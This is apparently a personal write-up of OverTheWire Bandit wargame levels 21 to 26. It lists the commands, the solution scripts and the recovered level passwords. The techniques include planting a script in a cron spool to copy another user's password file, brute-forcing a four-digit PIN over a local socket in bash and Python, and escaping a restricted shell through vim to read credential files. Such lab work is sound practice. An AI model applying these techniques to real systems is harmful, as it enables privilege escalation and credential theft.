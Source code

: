 # Bandit21
```
cd /etc/cron.d
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
flag:Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
# Bandit22
```
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit23.sh
echo I am user bandit23 | md5sum | cut -d ' ' -f 1
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```
flag:jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
# Bandit23
```
cat cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
mkdir /tmp/uwu
vim uwu.sh
```
In uwu.sh:
```
#!/bin/sh
cat /etc/bandit_pass/bandit24 > /tmp/lol2/uwu
```
```
touch uwu
cp uwu.sh  /var/spool/bandit24
```
Wait for cron execute the script <br>
flag:UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
# Bandit25
## Bash script [useful tool](https://www.shellcheck.net/)
```
#!/bin/bash                                                                                                                                                                              
 password="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ";
 al=""
 for i in {0000..9999}; do
 	echo "${password} ${i}" >> plol
 done	
 cat plol
 cat plol | nc localhost 30002 >> lal
 cat lal | uniq | grep password
```
## Python 
```python
import socket
pincode = 2000
password = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 30002))
msg=s.recv(2048)
print(msg)
while pincode < 10000:
	pincode = str(pincode).rjust(4,"0")
        message=password+' '+pincode+"\n"
        s.sendall(message.encode())
        receive = s.recv(1024)
        if "Try again" in str(receive):
            print(pincode)
            pincode = int(pincode)+1
        else:
            print(pincode)
            print(receive)
            sys.exit("exit")


```
flag:uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
# Bandit26
```
ssh bandit26@localhost -i bandit26.sshkey
```
Resize the shell

Press V to start vim
## In vim
```
:e /etc/bandit_pass/bandit26
```
:cq to exit 







flag:5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z  














